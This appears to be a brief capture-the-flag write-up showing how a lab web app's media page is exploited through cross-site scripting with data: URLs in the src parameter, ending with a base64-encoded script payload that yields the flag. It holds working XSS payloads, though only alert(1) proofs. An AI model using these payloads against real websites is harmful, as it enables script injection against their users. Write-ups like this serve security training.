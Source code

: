 # XSS media


## Attack scenario

in this page http://10.11.43.99/?page=media&src=nsa

We got another xss

first paylaod

> http://adressip/?page=media&src=data:text/plain,HELLO

Its working now lets try with html

> http://adressip/?page=media&src=data:text/html,<script>alert(1)</script>

Its working but it doesnt give us the flag, lets try to decode it

> http://adressip/?page=media&src=data:text/html;base64,ICA8c2NyaXB0PiBhbGVydCgxKTwvc2NyaXB0PiAg

> ICA8c2NyaXB0PiBhbGVydCgxKTwvc2NyaXB0PiAg is <script>alert(1)</script> with spaces to get rid of the == or + at the end of the decoded version in base64

and we get the flag

[source](https://developer.mozilla.org/fr/docs/web/http/basics_of_http/data_urls)

